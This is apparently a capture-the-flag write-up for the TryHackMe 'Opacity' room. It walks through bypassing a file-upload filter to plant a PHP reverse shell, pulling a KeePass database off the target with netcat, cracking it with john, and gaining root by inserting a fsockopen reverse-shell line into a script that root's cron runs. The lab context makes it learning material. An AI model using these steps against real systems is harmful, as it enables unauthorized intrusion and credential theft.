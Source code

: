 # Opacity

[Opacity](https://tryhackme.com/room/opacity)

## Solution

- nmap scan 22, 80, 139, 445

- feroxbuster `/cloud`

### Uploading Image

1. Start a http server locally `python -m http.server`.
2. Create a revshell.php file with Pentest Monkey. https://www.revshells.com/
3. Go to `/cloud` and enter the url as `http://<host>:8000/revshell.php#.png`.
   This will trick the file upload to think that you upload an image (png
   extenstion), but the http server will respond with the php file.
4. Have a nc listener and you get on the target machine

### www-data

The file `/var/www/html/login.php` actually contains passwords `$logins =
array('admin' => 'oncloud9','root' => 'oncloud9','administrator' =>
'oncloud9');`.

### local.txt

Enumerate with linpeas or other tools + manual. look for interesting
folders/files in `/` and `/var/www`.

- /opt/dataset.kdbx: Keepass password database 2.x KDBX

Send it to the host with the usual on host `nc -lp 8080 > databse.kdbx` on
target `nc <host> 8080 < /opt/dataset.kdbx`.

Convert the file to john format using `keepas2john database.kdbx >
database.txt` and then attempt to crack it with `john database.txt`.
And we get `741852963`. Next we can upload the database.kdbx to
https://app.keeweb.info/ and use the password to get the data. It contains the
credentials for `sysadmin:Cl0udP4ss40p4city#8700`. `ssh sysadmin@<ip>` and
provide the password.

### proof.txt

Enumerate:
- `sudo -l` no sudo permissions
- `find / -perm /4000 -type f 2> /dev/null` nothing unusual
- `crontab -l` no cronjobs
- `/etc/crontab` and all that stuff maybe some interesting cronjob.
- linpeas: ~/scripts/script.php is ran by the root. maybe there is a cronjob.

`script.php` creates a zip of the scripts folder and moves it to /var/backups/.
we can try to unzip the backup in scripts and overwrite `lib` with our code.
`unzip /var/backups/backup.zip -d ~/scripts/ -x script.php`. then we can modify
`lib/backup.inc.php` to add a line that makes a revshell
`$sock=fsockopen("<host>",6969);shell_exec("sh <&3 >&3 2>&3");` on the host we
should run `nc -lvnp 6969`. the flag for root is in /root/proof.txt.
